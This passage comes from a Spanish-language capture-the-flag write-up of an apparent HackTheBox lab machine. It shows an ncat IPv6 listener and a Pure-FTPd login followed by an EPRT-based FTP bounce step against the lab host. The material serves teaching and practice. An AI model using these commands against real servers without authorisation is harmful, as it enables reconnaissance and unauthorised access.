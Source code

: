 >Nota : debe ser superior al 1024 
Teniendo esto, me pongo en modo escucha con ncat(otra versión de netcat que en mi caso si funciona para ipv6 ya que nc no me lo acepta)

**Terminal 1**
```console
$ ncat -6 -nlvp 4444
```
## FTP bounce attack
**Termianl 2**
```console
$ nc 10.10.10.156 21
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 500 allowed.
220-Local time is now 20:35. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
USER 2D5SDLf7btv80v1CiYSXcAuqwzUs6SA4
331 User 2D5SDLf7btv80v1CiYSXcAuqwzUs6SA4 OK. Password required
PASS 2D5SDLf7btv80v1CiYSXcAuqwzUs6SA4
230-This server supports FXP transfers
230-OK. Current restricted directory is /
230-0 files used (0%) - authorized: 10 files
230 0 Kbytes used (0%) - authorized: 1024 Kb
EPRT |2|dead:beef:2::1004|4444|     
```
Una vez ya teninedo esto en nuestra segunda terminal y le damos al enter
![](/assets/img/commons/Zetta/terminal.png)
